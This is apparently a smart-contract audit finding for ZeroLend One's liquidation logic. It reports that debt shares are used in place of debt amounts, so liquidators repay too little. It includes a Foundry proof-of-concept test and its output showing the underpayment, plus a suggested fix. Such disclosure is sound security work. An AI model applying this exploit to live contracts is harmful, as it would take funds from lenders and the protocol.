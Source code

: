 Rapid Onyx Meerkat

High

# The liquidation process did not pay back the borrowed assets

### Summary

When a position falls below the health factor (HF), an external user can invoke `liquidate` to liquidate that specific position. However, when calculating the `actualDebtToLiquidate`, debt shares are used instead of the debt amount. This can result in less funds being repaid to the pool.

### Root Cause

[LiquidationLogic.sol::_calculateDebt](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/LiquidationLogic.sol#L259-L273) debtShare is returned after `_calculateDebt` calculation.
```solidity
  function _calculateDebt(
    DataTypes.ExecuteLiquidationCallParams memory params,
    uint256 healthFactor,
    mapping(address => mapping(bytes32 => DataTypes.PositionBalance)) storage balances
  ) internal view returns (uint256, uint256) {
    uint256 userDebt = balances[params.debtAsset][params.position].debtShares;

    uint256 closeFactor = healthFactor > CLOSE_FACTOR_HF_THRESHOLD ? DEFAULT_LIQUIDATION_CLOSE_FACTOR : MAX_LIQUIDATION_CLOSE_FACTOR;

    uint256 maxLiquidatableDebt = userDebt.percentMul(closeFactor);

    uint256 actualDebtToLiquidate = params.debtToCover > maxLiquidatableDebt ? maxLiquidatableDebt : params.debtToCover;

    return (userDebt, actualDebtToLiquidate);
  }
```
[LiquidationLogic.sol::_calculateAvailableCollateralToLiquidate](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/LiquidationLogic.sol#L328-L352) then the `debtToCover` / `actualDebtToLiquidate` is used to calculate the amount of `baseCollateral`
```solidity
  function _calculateAvailableCollateralToLiquidate(
    DataTypes.ReserveData storage collateralReserve,
    DataTypes.ReserveCache memory debtReserveCache,
    uint256 debtToCover, //@audit-info actualDebtToLiquidate.
    uint256 userCollateralBalance,
    uint256 liquidationBonus,
    uint256 collateralPrice,
    uint256 debtAssetPrice,
    uint256 liquidationProtocolFeePercentage
  ) internal view returns (uint256, uint256, uint256) {
    AvailableCollateralToLiquidateLocalVars memory vars;

    vars.collateralPrice = collateralPrice; // oracle.getAssetPrice(collateralAsset);
    vars.debtAssetPrice = debtAssetPrice; // oracle.getAssetPrice(debtAsset);

    vars.collateralDecimals = collateralReserve.configuration.getDecimals();
    vars.debtAssetDecimals = debtReserveCache.reserveConfiguration.getDecimals();

    unchecked {
      vars.collateralAssetUnit = 10 ** vars.collateralDecimals;
      vars.debtAssetUnit = 10 ** vars.debtAssetDecimals;
    }

    // This is the base collateral to liquidate based on the given debt to cover
    vars.baseCollateral = ((vars.debtAssetPrice * debtToCover * vars.collateralAssetUnit)) / (vars.collateralPrice * vars.debtAssetUnit);
```
which lead to calculation result error, liquidation process paid back less assets then expected. 

### Internal pre-conditions

1. set borrowRate && LiquidityRate to `2e27`

```solidity
  function calculateInterestRates(
    bytes32,
    bytes memory,
    DataTypes.CalculateInterestRatesParams memory params
  ) public view override returns (uint256, uint256) {
    return (2e27,2e27);
```

### External pre-conditions

_No response_

### Attack Path

1.alice supply 10e18 tokenA && tokenB
2.skip 360 days
3.candy supply 20e18 tokenA
4.candy borrow 4e18 tokenB
5.oracelA price goes down
6.external liquidate candy's position

### Impact

1.protocol lost funds

### PoC

```solidity
  function testLiquidityUseShareInsteadOfAmount() public {
    vm.warp(1641070800);
    //set lqRate && borrowRate to 2e27.

    //alice supply tokenA as colla
    uint256 mintAmount = 100e18;
    DataTypes.ExtraData memory data = DataTypes.ExtraData(bytes(''), bytes(''));
    INFTPositionManager.AssetOperationParams memory params = INFTPositionManager.AssetOperationParams(address(tokenA), alice, 10e18, 1, data);
    _mintAndApprove(alice, tokenA, mintAmount, address(nftPositionManager));
    _mintAndApprove(alice, tokenB, mintAmount, address(nftPositionManager));

    vm.startPrank(alice);
    nftPositionManager.mint(address(pool));
    nftPositionManager.supply(params);
    params = INFTPositionManager.AssetOperationParams(address(tokenB), alice, 10e18, 1, data);
    nftPositionManager.supply(params);

    //alice borrow assets(tokenB) from pool.
    params = INFTPositionManager.AssetOperationParams(address(tokenB), alice, 4e18, 1, data);
    nftPositionManager.borrow(params);
    vm.stopPrank();

    skip(365 days);

    //candy supply assets to pool.
    params = INFTPositionManager.AssetOperationParams(address(tokenA), candy, 20e18, 2, data);
    _mintAndApprove(candy, tokenA, mintAmount, address(nftPositionManager));
     vm.startPrank(candy);
    nftPositionManager.mint(address(pool));
    nftPositionManager.supply(params);

    //candy borrow assets(tokenB) from pool.
    params = INFTPositionManager.AssetOperationParams(address(tokenB), candy, 4e18, 2, data);
    nftPositionManager.borrow(params);

    //tokenA price goes down.
    oracleA.updateAnswer(0.1e8);

    //lq candy's position.
    //checking position HF.
    (,,,,,uint256 healthFactor) = pool.getUserAccountData(address(nftPositionManager),2);
    //alice's supply is being lq.
    //lq alice's assets.
    bytes32 position = keccak256(abi.encodePacked(address(nftPositionManager), 'index', uint256(2)));
    vm.stopPrank();
    tokenB.mint(address(this),10e18);
    tokenB.approve(address(pool), 10e18);

    pool.liquidate(address(tokenA), address(tokenB), position, 6e18, data);
    console2.log("cost tokenB:",10e18 - tokenB.balanceOf(address(this)));
    console2.log("pool tokenB balance:",tokenB.balanceOf(address(pool)));
  }
```

out:
```shell
Ran 1 test for test/forge/core/positions/NFTPositionManagerTest.t.sol:NFTPostionManagerTest
[PASS] testLiquidityUseShareInsteadOfAmount() (gas: 1910717)
Logs:
  cost tokenB: 317460317460317460   (0.3e18)
  pool tokenB balance: 2317460317460317460  (2.3e18)

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 13.37ms (3.71ms CPU time)

Ran 1 test suite in 154.22ms (13.37ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

use amount of token borrowed to calculate the `baseCollateral` instead of debtShare